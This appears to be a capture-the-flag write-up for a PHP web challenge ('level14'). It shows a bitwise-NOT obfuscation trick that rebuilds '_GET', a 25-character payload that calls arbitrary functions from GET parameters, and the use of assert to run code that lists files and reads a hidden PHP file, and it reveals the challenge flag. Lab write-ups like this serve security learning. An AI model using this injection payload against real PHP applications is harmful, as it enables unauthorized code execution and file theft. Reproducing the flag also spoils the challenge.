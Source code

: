 ```yaml
---
layout: default
title: level14
---
```


This challenge is quite complicated. We need to execute our own code, however there are a lot of restrictions.

First, we can see this cute `not` trick:
When we supply `~"\xff"`, it will be interpreted in php to `\x00`. So, by this way we can bypass the restrication of giving `_GET`, just simply input the string after flipping the bits.

We use this hex_dump php function, which is took from here [stackoverflow - php hexdump function](https://stackoverflow.com/a/4225813)
```php
function hex_dump($data, $newline="\n")
{
  static $from = '';
  static $to = '';
  
  static $width = 16; # number of bytes per line
  
  static $pad = '.'; # padding for non-visible characters
  
  if ($from==='')
  {
    for ($i=0; $i<=0xFF; $i++)
    {
      $from .= chr($i);
      $to .= ($i >= 0x20 && $i <= 0x7E) ? chr($i) : $pad;
    }
  }
  
  $hex = str_split(bin2hex($data), $width*2);
  $chars = str_split(strtr($data, $from, $to), $width);
  
  $offset = 0;
  foreach ($hex as $i => $line)
  {
    echo sprintf('%6X',$offset).' : '.implode(' ', str_split($line,2)) . ' [' . $chars[$i] . ']' . $newline;
    $offset += $width;
  }
}
```

![hexdump bitwise](./images/level14_hexdump.png)

Let's try this, we give this input:
`echo ${~'%A0%B8%BA%AB'}{0}('DD');` which is after deobsufcate: `echo ${_GET}{0}('DD');` which is `echo $_GET[0]('DD')`, and we give in the params: `?0=strlen`.

As we can see, the output is `2`, WORKING!!

![show _GET working](./images/level14_obsufcating.png)

Okay, now we'll add another `_GET[1]`, to insert our param to the function, and by this way bypassing the 25-chars length striction.
This will be our payload: `${~%A0%B8%BA%AB}{0}(${~%A0%B8%BA%AB}{1});`, and of course, the params: `?0=function_name&1=function_param`

We've got luck, because this payload is exactly 25 chars :)

I wrote this script to help us, you only need to supply `function_name` and `function_param`.
```py
{% include_relative scripts/level14.py %}
```

I'm gonna use `assert`, because it contains `eval` within its execution, here you can see more about it, [how assert can help you hacking](https://infosecwriteups.com/how-assertions-can-get-you-hacked-da22c84fb8f6).
The first `function_param` will be `print_r(scandir("."));`, to print the content of the folder.

Then, the `function_param` will be `print(file_get_contents('0e7efcd6e821f4bb90af4e4c439001944c1769da.php'));`


![final FLAG](./images/level14_final.png)

**Flag:** ***`WEBSEC{that_must_have_been_some_nifty_php_trick_you_had_there}`*** 
